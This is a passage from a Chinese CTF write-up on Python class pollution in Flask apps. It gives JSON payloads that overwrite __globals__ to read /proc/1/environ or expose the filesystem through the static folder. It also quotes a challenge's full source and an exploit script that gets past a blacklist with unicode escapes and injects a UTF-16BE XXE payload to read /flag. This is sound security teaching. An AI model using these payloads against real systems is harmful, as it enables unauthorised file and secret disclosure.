    return open(__file__, "r").read()

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8080)
```

**法一**

payload

{"username":"abc","password":"123","\_\_class\_\_":{"check":{"\_\_globals\_\_":{"\_\_file\_\_":"/proc/1/environ"}}}}



{"username":"abc","password":"123","\_\_class\_\_":{"check":{"\_\_globals\_\_":{"\_\_file\_\_":"/proc/1/environ"}}}}



**法二**

{"username":"ten","password":"123456","\_\_init\_\_":{"\_\_globals\_\_":{"app":{"\_static\_folder":"/"}}}}

unicode

{"username":"ten","password":"123456","\_\_init\_\_":{"\_\_globals\_\_":{"app":{"\_static\_folder":"/"}}}}

访问/static/xxx就可以任意文件下载



看到拉神一题，摘抄一下

* Lazzaro @ [https://lazzzaro.github.io](https://lazzzaro.github.io/)

```
import json
from lxml import etree
from flask import Flask, request, render_template, flash, redirect, url_for, session, Response, send_file, jsonify
app = Flask(__name__)
app.secret_key = 'a123456'
app.config['xml_data'] = '<?xml version="1.0" encoding="UTF-8"?><GeekChallenge2024><EventName>Geek Challenge</EventName><Year>2024</Year><Description>This is a challenge event for geeks in the year 2024.</Description></GeekChallenge2024>'

class User:

    def __init__(self, username, password):
        self.username = username
        self.password = password

    def check(self, data):
        return self.username == data['username'] and self.password == data['password']
admin = User('admin', '123456j1rrynonono')
Users = [admin]

def update(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and isinstance(v, dict):
                update(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and isinstance(v, dict):
            update(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        for u in Users:
            if u.username == username:
                flash('用户名已存在', 'error')
                return redirect(url_for('register'))
        new_user = User(username, password)
        Users.append(new_user)
        flash('注册成功！请登录', 'success')
        return redirect(url_for('login'))
    else:
        return render_template('register.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        for u in Users:
            if u.check({'username': username, 'password': password}):
                session['username'] = username
                flash('登录成功', 'success')
                return redirect(url_for('dashboard'))
        flash('用户名或密码错误', 'error')
        return redirect(url_for('login'))
    else:
        return render_template('login.html')

@app.route('/play', methods=['GET', 'POST'])
def play():
    if 'username' in session:
        with open('/app/templates/play.html', 'r', encoding='utf-8') as file:
            play_html = file.read()
        return play_html
    flash('请先登录', 'error')
    return redirect(url_for('login'))

@app.route('/admin', methods=['GET', 'POST'])
def admin():
    if 'username' in session and session['username'] == 'admin':
        return render_template('admin.html', username=session['username'])
    flash('你没有权限访问', 'error')
    return redirect(url_for('login'))

@app.route('/downloads321')
def downloads321():
    return send_file('./source/app.pyc', as_attachment=True)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/dashboard')
def dashboard():
    if 'username' in session:
        is_admin = session['username'] == 'admin'
        if is_admin:
            user_tag = 'Admin User'
        else:
            user_tag = 'Normal User'
        return render_template('dashboard.html', username=session['username'], tag=user_tag, is_admin=is_admin)
    flash('请先登录', 'error')
    return redirect(url_for('login'))

@app.route('/xml_parse')
def xml_parse():
    try:
        xml_bytes = app.config['xml_data'].encode('utf-8')
        parser = etree.XMLParser(load_dtd=True, resolve_entities=True)
        tree = etree.fromstring(xml_bytes, parser=parser)
        result_xml = etree.tostring(tree, pretty_print=True, encoding='utf-8', xml_declaration=True)
        return Response(result_xml, mimetype='application/xml')
    except etree.XMLSyntaxError as e:
        return str(e)
black_list = ['__class__'.encode(), '__init__'.encode(), '__globals__'.encode()]

def check(data):
    print(data)
    for i in black_list:
        print(i)
        if i in data:
            print(i)
            return False
    return True

@app.route('/update', methods=['POST'])
def update_route():
    if 'username' in session and session['username'] == 'admin':
        if request.data:
            try:
                if not check(request.data):
                    return ('NONONO, Bad Hacker', 403)
                data = json.loads(request.data.decode())
                print(data)
                if all(('static' not in str(value) and 'dtd' not in str(value) and ('file' not in str(value)) and ('environ' not in str(value)) for value in data.values())):
                    update(data, User)
                    return (jsonify({'message': '更新成功'}), 200)
                return ('Invalid character', 400)
            except Exception as e:
                return (f'Exception: {str(e)}', 500)
        else:
            return ('No data provided', 400)
    else:
        flash('你没有权限访问', 'error')
        return redirect(url_for('login'))
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80, debug=False)
```

审计代码，/update 原型链污染 app.config['xml\_data'] 为恶意xml代码，再访问 /xml\_parse 触发XXE漏洞读文件。

原型链污染部分，用unicode编码绕过字符串过滤；XXE部分，将payload编码为UTF-16BE绕过。

```
import requests
import os

url = 'http://80-cdb52045-af65-4bfe-96b9-57db1b26eac5.challenge.ctfplus.cn'

cookie = {
    'session':'eyJ1c2VybmFtZSI6ImFkbWluIn0.ZyUV7A.z-zuf8kzQ61LEbcsR7J4i80SyP0'
}

xml_data = '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///flag">]><foo>&xxe;</foo>'
xml_data2 = os.popen(f'''echo '{xml_data}'| iconv -f utf-8 -t utf-16be''').read()
print(xml_data2)
json = {
    '\u005f_init__':{
        '\u005f_globals__':{
            'app':{
                'config':{
                    'xml_data':xml_data2
                }
            }
        }
    }
}
r = requests.post(f'{url}/update',json=json,cookies=cookie)
print(r.text)
r = requests.get(f'{url}/xml_parse')
print(r.text)
```
